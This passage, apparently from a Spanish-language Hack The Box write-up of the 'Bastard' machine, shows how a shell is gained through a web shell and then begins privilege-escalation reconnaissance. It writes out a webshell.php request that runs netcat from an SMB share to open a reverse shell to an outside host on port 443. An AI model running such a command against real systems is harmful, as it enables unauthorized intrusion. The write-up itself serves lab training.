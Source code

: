 Con esto ya solo queda entablar una reverse shell.

* ```http://10.10.10.9/webshell.php?cmd=\\10.10.14.12\Shared\nc.exe -e cmd 10.10.14.12 443```

Pero antes, como siempre, compartiremos **netcat** a través de **SMB** con la ayuda de impacket y nos pondremos a la escucha de una conexión por el puerto 443.

![](/images/HTB/Bastard/30-user-shell.png)

Entraremos como ```nt authority\iusr```

## Escalando privilegios

Para la escalada de privilegios, como siempre partiremos por realizar un pequeño reconomiento.


![](/images/HTB/Bastard/32-reconocimiento.png)
